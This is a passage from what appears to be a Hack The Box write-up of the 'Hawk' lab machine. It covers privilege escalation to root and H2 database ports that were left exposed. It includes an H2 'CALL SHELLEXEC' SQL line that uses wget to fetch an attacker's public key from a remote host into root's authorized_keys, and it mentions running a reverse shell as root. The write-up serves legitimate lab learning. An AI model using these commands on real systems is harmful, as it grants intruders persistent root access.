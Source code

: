 

Running that gives me a root shell:



    daniel@hawk:/tmp$ ./.a
    # id
    uid=0(root) gid=1005(daniel) groups=1005(daniel)



*July 2023 note: Much like in
[Smasher](/htb-smasher.md#exploiting-checker), Hawk must
have gotten some maintenance that updated the OS to include protections
for `/tmp`. The above strategy no longer works from `/tmp`, but moving
to `/home/daniel` works just fine.*

Another alternative was to create an ssh key pair, and then use:



    CALL SHELLEXEC('wget -O /root/.ssh/authorized_keys http://10.10.14.3:81/id_rsa.pub');



From there, I could ssh in as root.

A third idea that worked was putting one of the reverse shells in a file
as a bash script, and having root run it.

## Beyond Root - Other Listening Ports

In my initial nmap scan, I noticed two more ports open that I haven't
accounted for yet: 5435 and 9092. It turns out, they are both H2
related. When you start H2, it will report something like:



    Web Console server running at http://127.0.1.1:8082 (only local connections)
    TCP server running at tcp://127.0.1.1:9092 (only local connections)
    PG server running at pg://127.0.1.1:5435 (only local connections)



But on Hawk, these two ports were not local only.

If I poke at 9092, I get this:

![](/img/1543542886645.png)
